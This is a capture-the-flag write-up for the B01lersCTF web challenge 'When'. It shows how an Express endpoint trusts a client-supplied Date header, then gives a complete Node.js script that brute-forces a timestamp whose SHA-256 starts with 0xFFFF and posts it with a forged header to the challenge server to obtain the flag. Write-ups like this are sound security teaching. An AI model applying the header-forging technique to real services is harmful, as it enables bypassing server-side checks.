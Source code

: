 +++
date = '2025-04-21T23:11:00+03:00'
draft = false
title = 'B01lersCTF - When (Web)'
+++

## Overview

The challenge is a small Express app in which a user can hit anywhere on the page to "gamble".

## Reviewing the code

After reading `app.ts`, we can see that there is a rate-limiter in place so directly bruteforcing via HTTP is obviously impossible.
There is a `gamble(number)` function that returns a SHA-256, it is used to issue hashes from JavaScript dates.
```js
async function gamble(number: number) {
    return crypto.subtle.digest("SHA-256", Buffer.from(number.toString()))
}
```

Here comes the interesting part, the Express app serves a POST endpoint `/gamble`, which can optionally use a `Date` HTTP header to perform the "calculation". 

Let's see the code:
```js
app.post('/gamble', (req, res) => {
    const time = req.headers.date ? new Date(req.headers.date) : new Date()
    const number = Math.floor(time.getTime() / 1000)
    if (isNaN(number)) {
        res.send({
            success: false,
            error: "Bad Date"
        }).status(400)
        return
    }
    gamble(number).then(data => {
        const bytes = new Uint8Array(data)
        if (bytes[0] == 255 && bytes[1] == 255) {
            res.send({
                success: true,
                result: "1111111111111111",
                flag: "bctf{fake_flag}"
            })
        } else {
            res.send({
                success: true,
                result: bytes[0].toString(2).padStart(8, "0") + bytes[1].toString(2).padStart(8, "0")
            })
        }
    })
});
```

The endpoint computes a SHA-256 hash from the Unix timestamp extracted from the Date header. If the first two bytes of the hash are 255, the server returns the flag.

## Writing an exploit

To pass the backend checks, we need to find a Unix timestamp `T` such that:
```js
Uint8Array(SHA256(T.toString()))[0] === 255
Uint8Array(SHA256(T.toString()))[1] === 255
```
We can brute-force locally since the same logic is used in the backend. Once we find the right value, we send a POST request with a `Date` header set to that exact time.

Here's the full exploit:
```js
import crypto from "crypto";

function gamble(number) {
    return crypto.createHash("sha256").update(number.toString()).digest();
}

function findFF() {
    for (let i = 0; i < 1e8; i++) {
        const hash = gamble(i);
        if (hash[0] === 0xff && hash[1] === 0xff) {
            console.log("Found it:", i);
            return i;
        }
    }
    throw new Error("Not found");
}

const timestamp = findFF();
const time = new Date(timestamp * 1000);

console.log("Timestamp:", timestamp);
console.log("Date:", time.toISOString());

const hash = gamble(timestamp);
console.log("First two bytes:", hash[0], hash[1]);
console.table(Array.from(hash));

const response = await fetch("https://when.atreides.b01lersc.tf/gamble", {
    method: "POST",
    headers: {
        "Date": time.toISOString()
    }
})

const data = await response.json()
console.log(data.flag)
```

In less than a second, it finds the right timestamp and fetches the flag:
```
Found it: 30398
Timestamp: 30398
Date: 1970-01-01T08:26:38.000Z
First two bytes: 255 255
┌─────────┬────────┐
│ (index) │ Values │
├─────────┼────────┤
│ 0       │ 255    │
│ 1       │ 255    │
│ 2       │ 142    │
│ 3       │ 213    │
│ 4       │ 111    │
│ 5       │ 101    │
│ 6       │ 202    │
│ 7       │ 240    │
│ 8       │ 1      │
│ 9       │ 159    │
│ 10      │ 144    │
│ 11      │ 214    │
│ 12      │ 91     │
│ 13      │ 127    │
│ 14      │ 21     │
│ 15      │ 139    │
│ 16      │ 134    │
│ 17      │ 46     │
│ 18      │ 252    │
│ 19      │ 171    │
│ 20      │ 92     │
│ 21      │ 69     │
│ 22      │ 23     │
│ 23      │ 167    │
│ 24      │ 108    │
│ 25      │ 1      │
│ 26      │ 199    │
│ 27      │ 58     │
│ 28      │ 207    │
│ 29      │ 146    │
│ 30      │ 217    │
│ 31      │ 155    │
└─────────┴────────┘
bctf{}
```

## Epilogue
Thanks for reading! Hope you had fun with this challenge.
